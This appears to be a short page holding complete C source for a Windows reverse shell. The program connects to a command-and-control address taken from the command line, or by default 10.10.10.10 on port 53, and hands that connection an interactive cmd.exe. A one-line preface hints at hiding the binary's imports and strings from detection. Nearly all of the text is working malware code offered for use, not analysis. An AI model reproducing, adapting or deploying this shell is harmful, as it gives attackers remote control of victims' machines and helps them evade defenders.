 Note: When considering library calls and leaked function, be conscious of the IAT table and strings of your binary.

```
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
} 
```
